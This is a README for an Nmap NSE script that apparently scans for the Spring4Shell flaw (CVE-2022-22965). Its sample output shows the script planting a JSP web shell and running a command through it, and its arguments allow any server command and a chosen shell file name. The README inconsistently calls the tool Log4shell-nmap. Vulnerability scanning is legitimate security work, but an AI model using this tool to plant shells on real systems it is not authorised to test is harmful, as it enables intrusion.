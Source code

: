# Nmap-spring4shell
Log4shell-nmap is an NSE script for detecting Spring4Shell RCE vulnerabilities (CVE-2022-22965) in HTTP services. The script injects the correct payload into the application and then executes the following command on the specified endpoint.

## Vulnerability
See [here](https://www.lunasec.io/docs/blog/spring-rce-vulnerabilities/).

## Usage
```
┌──(kali㉿kali)-[~/nmap-spring4shell]
└─$ nmap 127.0.0.1 --script=./spring4shell.nse
(...)
PORT     STATE SERVICE    REASON  VERSION
8080/tcp open  http-proxy syn-ack
| spring4shell: 
|   VULNERABLE:
|   Spring4Shell - Spring Framework RCE via Data Binding on JDK 9+
|     State: VULNERABLE
|     IDs:  CVE:CVE-2022-22965
|     Check results:
|       127.0.0.1:8080/shell.jsp?pwd=j&cmd=id
|     Extra information:
|       TESTED URL: 127.0.0.1:8080
|       COMMAND: id
|       ASSERTION: uid
|     References:
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-22965
```

## Arguments
We can use several variables in the script. These are as follows:
- `endpoint` - relative url. On `https://bugspace.pl/search/videos` it will be `/search/videos`,
- `command` - command to be run on the server.  The default command is `id`,
- `assertion` - the checked string inside the server response. The default assertion is `uid`,
- `filename` - file name on the server. For more information see [here](https://www.lunasec.io/docs/blog/spring-rce-vulnerabilities/). The default name is `shell`.

## Additional data
Tested on application from [here](https://github.com/giterlizzi/nmap-log4shell) and [here](https://github.com/reznok/Spring4Shell-POC)

## License
Same as Nmap. See https://nmap.org/book/man-legal.html
